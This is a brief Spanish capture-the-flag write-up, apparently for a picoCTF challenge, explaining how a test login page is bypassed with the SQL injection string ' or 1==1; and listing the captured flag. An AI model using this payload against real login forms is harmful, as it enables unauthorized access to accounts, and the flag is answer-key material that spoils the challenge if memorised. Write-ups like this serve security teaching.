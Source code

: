 ## Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución  
```bash
' or 1==1;

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
## Notas Adicionales 
el sitio web usa una forma de verificar los loggins mediante sql por lo que podemos ingresar en el campo de contrasena: `' or 1==1;`
lo cual siempre es verdadero y a esto se le conoce como inyeccion SQL.
### Referencias

